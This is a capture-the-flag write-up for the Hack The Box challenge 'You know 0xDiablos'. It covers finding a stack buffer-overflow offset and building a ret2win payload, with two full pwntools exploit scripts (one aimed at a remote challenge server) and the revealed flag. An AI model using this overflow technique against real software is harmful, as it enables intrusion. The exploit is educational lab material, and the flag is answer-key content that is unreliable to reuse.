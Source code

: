 # You know 0xDiablos
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fcede4ab-f544-4479-91f0-a17bcac7b14e)

## Lessons Learned:
1. Stack-Based Exploitation.
2. Implement ret2win attack with 2 parameters.

## DESCRIPTION:
I missed my flag


## STEPS:
1. First unzip the file given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207644786-2b71a2bc-31f0-41b8-a85e-cd0c08f73f45.png)


2. Let's try to unzip it using `7z`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207645014-3ceb1439-e40d-401c-9bac-cf5ff74e6319.png)


3. Check the file type and the binary's protection.

> FILE TYPE

![image](https://user-images.githubusercontent.com/70703371/207645137-32ecbc90-2592-4b19-b6df-dd9f5df8ce9f.png)


```
32 Bit file, dynamically linked and not stripped.
```

> FILE'S PROTECTION

![image](https://user-images.githubusercontent.com/70703371/207645250-d4f9fb33-affa-423e-9ced-5d3e598f6897.png)


4. Now let's make the file executeable first by run `chmod +x vuln`, then run the file.

> INPUT ANY LENGTH OF A'S - RESULT

![image](https://user-images.githubusercontent.com/70703371/207646431-c05472b6-a7a9-4d81-b232-86bf038355c9.png)


5. As we know, since there's **no canary found**, then we can overflow the buffer.
6. I opened GDB and copied 1024 cyclic pattern, then run the file.

> GDB

![image](https://user-images.githubusercontent.com/70703371/207648015-176a3305-6214-49c3-93e5-1b13789cd213.png)


![image](https://user-images.githubusercontent.com/70703371/207648543-ac71b49a-166f-4bb2-801a-5b79be6a2c2b.png)


7. Copy the 4 chars in **EIP** , then do `cyclic -l waab`

```
EIP stands for Extended Instruction Pointer.
```

![image](https://user-images.githubusercontent.com/70703371/207649036-6d15d6e0-d67f-4ff3-813a-5594fa0f3660.png)


![image](https://user-images.githubusercontent.com/70703371/207649107-2487380c-4c9c-48ff-b372-032d07887552.png)


8. Now we know, we need to add 188 bytes as the padding.
9. Next, let's decompile the binary using ghidra.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207650199-f2fbdcf8-f495-478a-af85-edf6cbd5b5cb.png)


10. Check the `flag()` function.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/207650433-f2e6fe7e-7228-4f7c-829f-2c9ed0468f99.png)


11. Since the `flag()` function has parameters, then we can conclude it's a ret2win concept but with parameters.
12. To do ret2win with param in 32 Bit, the payload shall look like this:

```
padding + flagAddr + returnAddress + param1 + param2
```

13. Copy the param1 and param2 value.

> PARAM 1 & PARAM 2 (BOTH IN CHAR FORMAT)

![image](https://user-images.githubusercontent.com/70703371/207764429-ab1cbfe6-071b-4653-b900-73dd82c01f24.png)


14. For the return address, we want to return to the main() function just for safety. But actually you can add 4 bytes of characters as a junk.
15. So this is the final script:

```py
from pwn import *
import os

'''
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


#gdbscript = '''
#init-pwndbg
#continue
'''.format(**locals())
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
'''

os.system('clear')

context.log_level = 'debug'

sh = remote('157.245.35.145', 32410)
flagAddr = 134517218 # 0x80491e2
param1 = 3735928559 # 0xdeadbeef
param2 = 3235827725 # 0xc0ded00d
p = b'A' * 188 
p += p32(flagAddr)
p += p32(134517425) #0x80492b1 
p += p32(param1)
p += p32(param2)
sh.recvuntil("\n")
sh.sendline(p)

sh.interactive()
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/207765889-37a0079a-581a-4746-b1c9-673a1e26fa48.png)


16. Got the flag!


## FLAG

```
HTB{0ur_Buff3r_1s_not_healthy}
```

## ALTERNATE SOLVER

> using ropstar

```py
import os
from pwn import *

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './vuln'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = start()

padding = asm('nop') * 188 # EIP OFFSET

rop = ROP(elf)

rop.flag(0xdeadbeef, 0xc0ded00d)

send = padding + rop.chain()

sh.sendline(send)

get = sh.recvall()
print(get)

print(rop.dump())

sh.interactive()
```


